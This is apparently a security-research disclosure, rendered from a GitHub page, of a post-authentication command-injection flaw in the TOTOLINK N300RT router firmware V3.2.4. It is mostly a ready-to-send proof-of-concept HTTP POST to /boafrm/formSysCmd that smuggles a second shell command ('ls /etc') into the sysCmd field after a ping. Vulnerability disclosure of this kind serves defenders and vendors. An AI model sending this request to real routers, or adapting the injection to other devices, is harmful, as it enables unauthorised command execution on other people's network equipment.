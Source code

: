 ## TOTOLINK-N300RT-RCE
Firmware version: V3.2.4-B20180730.0906

### description
TOTOLINK-N300RT has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that

POC：
```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.1.1:80
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1:80
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0
Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,ima
ge/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
sysCmdselect=5&sysCmdselects=0&apply=Run+Command&sysCmd=p
ing+8.8.8.8;ls /etc&submit-url=%2Fsyscmd.htm&msg=
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/471c1696-2a8f-4640-b739-cef4b9d3d516
